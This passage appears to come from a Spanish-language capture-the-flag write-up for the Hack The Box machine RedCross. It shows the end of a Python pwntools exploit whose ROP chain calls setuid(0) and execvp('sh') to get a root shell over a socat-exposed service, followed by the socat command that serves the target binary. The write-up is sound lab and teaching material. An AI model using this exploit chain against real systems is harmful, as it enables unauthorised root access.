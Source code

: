 ```python
        R8  = quinto argumento
        R9  = sexto argumento
    
    Flujo de ejecución:
        1. pop_rdi; ret          -> Carga 0x0 en RDI desde la pila
        2. setuid@plt            -> Ejecuta setuid(0) - eleva privilegios
        3. pop_rdi; ret          -> Carga dirección de "sh" en RDI
        4. pop_rsi; pop r15; ret -> Carga NULL en RSI y R15
        5. execvp@plt            -> Ejecuta execvp("sh", NULL) - spawn shell root
    """
    
    payload = junk
    payload += pop_rdi        # Preparar RDI (primer argumento)
    payload += null           # RDI = 0
    payload += setuid         # setuid(0) - elevamos privilegios a root (UID 0)
    
    payload += pop_rdi        # Preparar RDI para execvp
    payload += sh_addr        # RDI = dirección de "sh" (0x40046e)
    payload += pop_rsi        # Preparar RSI (segundo argumento)
    payload += null           # RSI = NULL (no hay argumentos adicionales)
    payload += null           # R15 = NULL (pop extra requerido por el gadget)
    payload += execvp         # execvp("sh", NULL) - spawn shell interactiva
    payload += b"\n1.1.1.1\n" # IP dummy (requerida por validación del programa)
    
    # ========== Explotación ==========
    try:
        log.info("Conectando al servicio socat en 10.10.10.113:9002...")
        p = remote("10.10.10.113", 9002)
        log.success("Conexión establecida correctamente")
        
        log.info("Enviando payload ROP...")
        p.sendline(payload)
        
        log.success("¡Payload enviado! Shell obtenida como root (UID 0)")
        log.info("Comandos útiles: 'whoami', 'id', 'cat /root/root.txt'")
        p.interactive()
        
    except Exception as e:
        log.error(f"Error durante la explotación: {e}")
        log.failure("Verifica:")
        log.failure("  1. Tu IP está en la whitelist (admin.redcross.htb)")
        log.failure("  2. El servicio socat está corriendo en la máquina objetivo")
        log.failure("  3. Comando en objetivo: socat TCP-LISTEN:9002 EXEC:\"/opt/iptctl/iptctl -i\"")
        sys.exit(1)```
```

Desde la máquina objetivo ejecutamos: nos quedamos en escucha por el puerto que indiquemos (debe coincidir al del script)

```bash
socat TCP-LISTEN:9002 EXEC:"/opt/iptctl/iptctl -i"
```
